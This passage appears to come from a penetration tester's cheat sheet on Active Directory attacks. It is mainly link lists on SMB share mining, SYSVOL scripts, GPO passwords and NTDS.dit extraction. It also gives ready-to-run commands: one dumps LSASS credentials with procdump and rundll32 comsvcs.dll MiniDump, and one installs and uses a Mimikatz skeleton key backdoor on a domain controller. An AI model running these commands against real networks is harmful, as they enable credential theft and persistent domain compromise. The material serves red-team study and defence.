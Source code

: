 ### Mining SMB Shares

* [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/smb\_shares\_mining/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/smb\_shares\_mining/)

### Scripts stored in SYSVOL

* [https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)
* [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/check\_for\_scripts\_on\_sysvol/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/check\_for\_scripts\_on\_sysvol/)

### Passwords in GPO

* [https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)
* [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/passwords\_in\_group\_policy\_preferences/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/passwords\_in\_group\_policy\_preferences/)

### NTDS.DIT Password Extraction

* [How Attackers Pull the Active Directory Database (NTDS.dit) from a Domain Controller](https://adsecurity.org/?p=451)
* [Extracting Password Hashes From The Ntds.dit Fi](https://blog.stealthbits.com/extracting-password-hashes-from-the-ntds-dit-file/)
{% endtab %}

{% tab title="Dump w/o LSASS" %}
* [https://ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz](https://ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz)
* [Dumping Lsass.exe to Disk Without Mimikatz and Extracting Credentials - Red Teaming Experiments](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz)&#x20;
* [https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/](https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/)
* ProcDump
  * \>procdump.exe -accepteula -ma lsass.exe lsass.dmp
    * will need local admin to dump LSASS
  * Create dump file by using options within tasklist
  * Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:
    * .\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp fu
{% endtab %}

{% tab title="Skeleton Key" %}
* [http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis](http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis)
* Back door a privileged AD account with Mimikatz
* To install the skeleton key
  * \>mimikatz.exe “privilege::debug” “misc::skeleton” exit
* Use
  * \>net use \* \\\dc\c$ mimikatz /user:lab@attacker.domain
  * [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/)
{% endtab %}
